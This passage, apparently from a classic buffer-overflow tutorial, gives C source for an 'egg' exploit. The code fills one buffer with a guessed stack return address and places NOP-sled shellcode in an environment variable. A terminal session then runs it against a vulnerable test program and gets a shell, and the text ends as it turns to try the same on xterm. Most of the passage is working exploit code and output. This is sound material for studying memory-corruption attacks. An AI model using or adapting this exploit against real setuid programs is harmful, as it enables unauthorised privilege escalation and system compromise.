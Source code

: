 	unsigned long get_esp(void) {
		 __asm__("movl %esp,%eax");
	}

	void main(int argc, char *argv[]) {
		char *buff, *ptr, *egg;
		long *addr_ptr, addr;
		int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
		int i, eggsize=DEFAULT_EGG_SIZE;

		if (argc > 1) bsize   = atoi(argv[1]);
		if (argc > 2) offset  = atoi(argv[2]);
		if (argc > 3) eggsize = atoi(argv[3]);


		if (!(buff = malloc(bsize))) {
			printf("Can't allocate memory.\n");
			exit(0);
		}
		if (!(egg = malloc(eggsize))) {
			printf("Can't allocate memory.\n");
			exit(0);
			}

		addr = get_esp() - offset;
		printf("Using address: 0x%x\n", addr);

		ptr = buff;
		addr_ptr = (long *) ptr;
		for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;

		ptr = egg;
		for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
		*(ptr++) = NOP;

		for (i = 0; i < strlen(shellcode); i++)
		*(ptr++) = shellcode[i];

		buff[bsize - 1] = '\0';
		egg[eggsize - 1] = '\0';

		memcpy(egg,"EGG=",4);
		putenv(egg);
		memcpy(buff,"RET=",4);
		putenv(buff);
		system("/bin/bash");
	}

Lets try our new exploit with our vulnerable test program:

	[aleph1]$ ./exploit4 768
	Using address: 0xbffffdb0
	[aleph1]$ ./vulnerable $RET
	$

Works like a charm. Now lets try it on xterm:
